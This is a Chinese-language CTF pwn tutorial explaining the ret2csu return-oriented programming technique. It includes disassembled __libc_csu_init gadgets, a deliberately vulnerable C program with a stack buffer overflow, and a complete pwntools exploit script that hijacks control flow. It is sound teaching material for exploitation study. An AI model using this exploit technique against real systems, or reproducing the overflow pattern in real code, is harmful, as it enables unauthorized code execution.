 ```yaml
---
title: 「PWN」最基础的 ret2csu
tags: ['CTF', 'Pwn', ]
authors: [nova]
---
```

# RET2CSU

## 0x01 为什么需要ret2csu？

在64bits的ELF文件中，函数调用的前六个参数是分别存放在*rdi、rsi、rdx、rcx、r8、r9*这六个寄存器当中的，而我们在实际构建ROP时很难找到对应的gadgets（大部分情况下是找不到rdx），而ret2csu的关键点就在于使用`__libc_csu_init()`来获取两个gadgets来进行万能传参（同时泄露出函数真实地址）


<!--truncate-->
## 0x02 __libc_csu_init()

`__libc_csu_init()`是用来对libc进行初始化操作的函数，而绝大部分软件都会调用到libc，因此我们可以认为`__libc_csu_init()`基本算程序通用的函数之一

。这里，我们随便打开一个64bitELF文件查看一下它。

```assembly
.text:0000000000401250 loc_401250:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401250                 mov     rdx, r14
.text:0000000000401253                 mov     rsi, r13
.text:0000000000401256                 mov     edi, r12d
.text:0000000000401259                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040125D                 add     rbx, 1
.text:0000000000401261                 cmp     rbp, rbx
.text:0000000000401264                 jnz     short loc_401250
.text:0000000000401266
.text:0000000000401266 loc_401266:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401266                 add     rsp, 8
.text:000000000040126A                 pop     rbx
.text:000000000040126B                 pop     rbp
.text:000000000040126C                 pop     r12
.text:000000000040126E                 pop     r13
.text:0000000000401270                 pop     r14
.text:0000000000401272                 pop     r15
.text:0000000000401274                 retn

```

从这里我们可以看出，我们可以让`r15+rbx*8`为我们所要执行函数的指针，`edi、rsi、rdx`可以分别作为函数的参数

在通常情况下，我们一般让`rbx=0，rbp=1`，这样可以赋值`r15`为指向函数的指针，如此一来便大大化简了我们使用gadgets的难度。



## 0x03 实战

在这里，我只准备对ret2csu的原理进行探究（因为还有半个小时就要打HGAME辣），所以我写了一个简单的程序，它会直接泄露出函数实际地址

source:

```c
#include<stdio.h>
#include<unistd.h>

int vul(int a,int b,int c){
    if(c == 233)
        printf("Big Hacker!\n");
    return 0;
}

int main(){
    char buf[30];
    int (*ptr)(int a,int b,int c) = vul;
    printf("gift: %p\n", &ptr);
    read(0,buf,0x100);
    return 0;
}

```

编译:

```bash
gcc -m64 -fno-stack-protector -no-pie ret2csu_64bits.c -o ret2csu_64bits
```



很简单，我们只需要利用`__libc_csu_init()`将rdx赋值为233就好了

而我们使用ROPgadgets可以发现是没有一个gadgets能让我们这样做的

![ROPgadgets](https://cdn.novanoir.moe/img/image-20220120193316710.png)

这时候我们就需要进行ret2csu了

```python
def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload
```



值得注意的是，执行完gadget1之后，程序顺序执行会再次执行gadget2，因此，我们需要再填充一次`(7*0x8)`的垃圾数据防止出现错误

完整payload：

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./ret2csu_64bits')
elf = ELF('./ret2csu_64bits')

sh.recvuntil(b"gift: ")
vul_addr = int(sh.recvline(), 16)
csu_gadget1_addr = 0x401250
csu_gadget2_addr = 0x401266


def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload

gdb.attach(sh)
payload = b'A'*(0x20+0x08) + csu(csu_gadget1_addr, csu_gadget2_addr, 0, 1, 0, 0, 233, vul_addr, elf.sym['main'])
sh.sendline(payload)
sh.interactive()

```


